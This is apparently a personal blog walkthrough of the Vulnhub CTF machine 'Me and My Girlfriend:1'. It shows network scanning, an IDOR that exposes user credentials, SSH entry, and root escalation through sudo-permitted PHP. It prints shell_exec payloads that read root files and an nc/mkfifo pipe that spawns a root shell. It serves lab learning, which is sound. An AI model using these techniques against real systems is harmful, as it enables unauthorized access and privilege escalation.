 ```yaml
---
layout: post
title: Me and My Girlfriend:1 Walkthrough
categories: [CTF,Vulnhub]
---
```


As usual I start to scan network. I used masscan as it is faster compare to nmap. I scanned for port 80 as this is common port for CTF machines.
```
masscan -p80 192.168.1.0/24
```

![](/images/vuln_me_girlfriend/masscan.png)

I noticed that only 2 target as available. As one of that is my default gateway i decide to can 192.168.1.73. In your case... 99% IP address will be different.

I decide to to full scan against this machine. I used nmap
```
nmap -A -sV -T4 -p- 192.168.1.73
```
I used these options as -A will give you os detection and script scanning. Always use -sV to get version detection. I know that -A -sV are same so don't judge :) Option -T4 is more aggressive scanning that normal. and -p- is shortcut to scan all ports.

![](/images/vuln_me_girlfriend/nmap_full_scan.png)

As you can see from output only port 80 and 22 are open. I decide to explore port 80. I lunched web browser and get some 'felling' how web sites is looking. 

![](/images/vuln_me_girlfriend/webpage_index.png)

As you can see there is some login/register options and some static pages. 
After register i was able to log in and was redirect to home page as register user. Except change profile there was nothing interesting. 

![](/images/vuln_me_girlfriend/test_profile.png)

As you can see from url there is ID=14. I decide to change to 1 and BINGO. I was able to see profiles of other users. 
You could decide to check every user and grab his/her username and password. Them you can run hydra against port 22. But as from description of this machine Alice was person who was hiding something. I found Alice profile and decide to use her credentials to login into machine...

![](/images/vuln_me_girlfriend/ssh_login.png)

I was in. With little poking around Alice has hidden folder with all her secrets and also first flag. 

![](/images/vuln_me_girlfriend/flag_1.png)

After start looking for privilege escalation as start searching for some sticky bits or some clues. Them after reading few linux simple privilege escalation tricks. I tried this command

```
sudo -l
```

This command will show commands which you can run as sudo with out root password. I command was there... php. Created some simple shell.php file below.

```php
<?php
$output = shell_exec('ls /root');
echo "$output";
?>
```

Run it as 
```bash
sudo php -f shell.php
```
and get list files from root directory. There was on only one file... flag2.txt. Decide to change my php file a  little bit to get output of this file

```php
<?php
$output = shell_exec('cat /root/flag2.txt');
echo "$output";
?>
```

and hurray got second flag...

![](/images/vuln_me_girlfriend/flag_2.png)

That's it all, right? Well i was happy i pwned this machine but them i asked my self. Can I used this privilege escalation misconfiguration to get proper root shell? Challenge accepted. I know you can use nc and -e to bind bash to you but version nc on that machine was did not have -e. After asking my search engine for help. I was able to find article where this exact nc version can be use to get access to shell. I changed my shell to this one.

```php
<?php
$a = shell_exec('mkfifo f');
$a = shell_exec('nc localhost 4444 0<f | /bin/sh -i 2>&1 | tee -f');
?>
```

Run 'screen' command to have to virtual sessions. Lunch nc to listen on port 4444. Move to second session and run my php file. BAAAM i have root shell :) 

![](/images/vuln_me_girlfriend/root_shell.png)

I hope you like this walkthrough
